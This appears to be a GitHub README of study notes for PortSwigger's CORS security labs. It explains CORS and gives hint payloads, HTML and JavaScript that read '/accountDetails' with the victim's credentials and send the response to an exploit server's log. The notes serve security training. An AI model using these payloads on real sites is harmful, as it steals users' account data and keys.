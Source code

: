 # Cross-Origin-Resource-Sharing
Cross-Origin Resource Sharing (CORS) is an HTTP-header based mechanism that allows a server to indicate any origins (domain, scheme, or port) other than its own from which a browser should permit loading resources.

## Getting Started
PortSwigger account is required [PortSwigger](https://portswigger.net/users/register)  
Necessary tools: [Burt Suite](https://portswigger.net/burp/communitydownload)

## Exercise 1
CORS vulnerability with basic origin reflection
> [Exercise_1](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

<details>
  <summary>Hint</summary>
    
    #This code my help you access logs  
    #In your browser, go to the exploit server and enter the following HTML, replacing $url with your unique lab URL  
  
    <script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','$url/accountDetails',true);
      req.withCredentials = true;
      req.send();

      function reqListener() {
          location='/log?key='+this.responseText;
      };
    </script>
  
</details>

## Exercise 2
CORS vulnerability with trusted null origin  
> [Exercise_2](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

<details>
  <summary>Hint</summary>  
    
    #This code my help you access logs  
    #In your browser, go to the exploit server and enter the following HTML, replacing $url with the URL for your unique lab URL and $exploit-server-url with the exploit server URL  
  
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" 
      srcdoc="<script>
      var req = new XMLHttpRequest();
      req.onload = reqListener;
      req.open('get','$url/accountDetails',true);
      req.withCredentials = true;
      req.send();
      function reqListener() {
        location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
      };
      </script>">
    </iframe>  
  
</details>

## Exercise 3
